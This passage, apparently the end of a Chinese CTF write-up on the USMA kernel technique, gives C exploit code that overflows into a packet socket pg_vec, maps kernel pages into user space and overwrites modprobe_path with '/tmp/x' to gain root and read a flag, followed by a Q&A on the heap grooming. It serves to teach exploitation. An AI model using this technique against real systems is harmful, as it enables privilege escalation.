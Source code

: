 ```c
    {
        // edit 上溢出
        edit(0, (i << 20) | 0x2a000);

        // 映射到用户态
        char *page = mmap(NULL, nr * 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, packet_fd, 0);
        if (page == -1)
        {
            continue;
        }
        
        // 假如映射的对应位置为原本的modprobe，则break并修改，获取flag
        modprobe_path = page + (nr - 1) * 0x1000 + 0xc0;
        if (!strcmp(modprobe_path, "/sbin/modprobe"))
        {
            success("You got that!");
            break;
        }

        // 释放映射的页面
        munmap(page, nr * 0x1000);
    }

    // 将modprobe_path修改为恶意页面
    strcpy(modprobe_path, "/tmp/x");
    get_flag_from_modprobe1();

    return 0;
}
```

## 0x06. demo Q & A

- 为什么要申请`shm_file`这个结构体？

> 因为申请pg_vec的过程中有一个0x20的obj的噪声，先于pg_vec申请。而shm_file刚好为0x20大小。

- 上溢出为什么能修改到`pg_vec`的`obj`？

> 因为内核中堆块的分配方式是从高地址到低地址。

## 参考

[USMA: 用户态映射攻击](https://vul.360.net/archives/391)

[N1CTF - praymoon (USMA)](https://blog.csdn.net/qq_61670993/article/details/133974921)

